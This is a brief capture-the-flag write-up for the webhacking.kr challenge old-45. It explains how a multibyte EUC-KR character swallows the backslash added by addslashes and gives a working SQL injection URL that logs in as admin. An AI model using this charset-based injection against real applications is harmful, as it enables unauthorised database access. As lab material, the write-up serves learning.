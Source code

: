 ```yaml
---
layout: default
title: old-45
---
```


# Webhacking old-45 Solution

another sql injection.
here we use insert %bb and then, after the addslashes put `\` before the `'`, it'll take the %bb + `\` and encode in `euc-kr` format.

this is the payload i gave:

here we want to insert this: `id=%aa%27%20or%20id%20like%200x61646d696e'`, this is like: `' or id like admin`
this is the query i used in the http get
```
https://webhacking.kr/challenge/web-22/?id=%aa%27%20or%20id%20like%200x61646d696e--%20&pw=guest
```

